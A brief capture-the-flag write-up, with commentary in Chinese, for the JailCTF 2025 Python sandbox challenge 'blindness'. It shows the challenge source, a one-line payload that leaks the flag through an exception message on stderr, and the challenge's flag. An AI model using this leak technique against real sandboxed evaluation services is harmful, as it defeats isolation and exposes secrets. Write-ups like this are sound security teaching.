 ```yaml
---
title: "JailCTF 2025"
date: 2025-10-05T21:54:07+08:00
draft: false # Set 'false' to publish
tableOfContents: false # Enable/disable Table of Contents
description: ''
categories:
  - CTF
tags:
  - Write Up
---
```


## pyjail
### blindness

source code:
```python
import sys
inp = input('blindness > ')
sys.stdout.close()
flag = open('flag.txt').read()
eval(inp, {'__builtins__': {}, 'flag': flag})
print('bye bye')
```

簡單說就是沒有直接回顯跟 builtin 的 jail  
flag 是可以直接存取 但沒有 stdout 也沒辦法 print 出來  
可以改成觸發 Exception 來讓 flag 出現在 stderr 裡面  

payload:
```python
().__getattribute__(flag)
```

Flag: `jail{stderr_leak_5fd787f079eb69e}`

--- 

# END

蛤 ? 你問怎麼只有這樣只有一題 ?  
去看 [Securinets-CTF-2025](../securinets-ctf-2025/) 啦  